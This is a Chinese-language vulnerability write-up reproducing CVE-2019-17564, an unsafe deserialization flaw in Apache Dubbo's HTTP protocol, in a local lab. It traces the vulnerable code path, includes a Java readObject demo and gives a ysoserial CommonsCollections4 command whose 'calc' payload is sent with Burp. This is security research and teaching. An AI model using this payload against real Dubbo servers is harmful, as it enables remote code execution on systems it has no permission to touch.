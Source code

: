 （CVE-2019-17564）Apache Dubbo 反序列化漏洞
===========================================

一、漏洞简介
------------

`Apache Dubbo`支持多种协议，推荐官方使用`Dubbo`协议。`Apache Dubbo HTTP`协议中的一个反序列化漏洞（CVE-2019-17564），漏洞该主要原因的在于当`Apache Dubbo`启用`HTTP`协议之后，`Apache Dubbo`对消息体处理不当导致不安全反序列化，当项目包中存在可用的`gadgets`时即可导致远程代码执行。

二、漏洞影响
------------

2.7.0 \<= Apache Dubbo \<= 2.7.4.12.6.0 \<= Apache Dubbo \<= 2.6.7Apache Dubbo = 2.5.x

三、复现过程
------------

-   1.环境建设

为了环境搭建方便，访问`dubbo-samples`的github项目主页（https://github.com/apache/dubbo-samples）

下载源码以后，分离出http部分

![](./resource/(CVE-2019-17564)ApacheDubbo反序列化漏洞/media/rId24.png)

修改pom.xml中32行`dubbo.version`

![](./resource/(CVE-2019-17564)ApacheDubbo反序列化漏洞/media/rId25.png)

修改其为漏洞版本,以2.7.3为例,随后在Idea中开启即可修改JDK版本为1.8

![](./resource/(CVE-2019-17564)ApacheDubbo反序列化漏洞/media/rId26.png)

随后导入一个可控的gadgets用于分析,例如`commons-collections4-4.0`,并启动`HttpProvider`

![](./resource/(CVE-2019-17564)ApacheDubbo反序列化漏洞/media/rId27.png)

##### 注:Dubbo启动依赖zookeeper,这部分使用不再赘述,请自行查阅google

-   2.漏洞分析

我们进入`org.apache.dubbo.remoting.http.servlet.DispatcherServlet`在43行`handler.handle(request, response);`处打入断点，利用burp进行发包跟踪它的走向

![](./resource/(CVE-2019-17564)ApacheDubbo反序列化漏洞/media/rId29.png)

随后发现其进入`org.apache.dubbo.rpc.protocol.http.HttpProtocol`中的`handle`

![](./resource/(CVE-2019-17564)ApacheDubbo反序列化漏洞/media/rId30.png)

进一步跟踪

![](./resource/(CVE-2019-17564)ApacheDubbo反序列化漏洞/media/rId31.png)

最终进入`org.springframework.remoting.rmi.RemoteInvocationSerializingExporter`

![](./resource/(CVE-2019-17564)ApacheDubbo反序列化漏洞/media/rId32.png)

该ois对象来源为报文中post
data部分,对于传入的ois并没有做任何安全过滤和检查,直接就行了`readObject`方法导致RCE产生.

![](./resource/(CVE-2019-17564)ApacheDubbo反序列化漏洞/media/rId33.png)

很多人不太理解Java反序列化漏洞怎么rce,这里给出一段示例代码

使用`ysoserial`随意生成一个序列化文件,再利用下面的代码读取该序列化文件即可达到效果,可见直接使用`readObject`方法的危害

    import java.io.FileInputStream;
    import java.io.ObjectInputStream;

    public class test1 {
        public test1() {
        }

        public static void main(String[] args) throws Exception {
            FileInputStream fis = new FileInputStream("/Users/xue/Documents/NetSafe/Tools/JavaTools/1.ser");
            ObjectInputStream ois = new ObjectInputStream(fis);
            ois.readObject();
        }
    }

-   3.漏洞复现

ysoserial下载地址：http://wiki.0-sec.org/download/ysoserial.zip

利用ysoserial生成payload

    java -jar ysoserial-master-30099844c6-1.jar CommonsCollections4 "calc" > payload.out

将payload粘贴至burp中

![](./resource/(CVE-2019-17564)ApacheDubbo反序列化漏洞/media/rId34.png)

![](./resource/(CVE-2019-17564)ApacheDubbo反序列化漏洞/media/rId35.gif)

参考链接
--------

> https://qiita.com/shimizukawasaki/items/39c9695d439768cfaeb5
>
> https://www.cnblogs.com/wh4am1/p/12307848.html
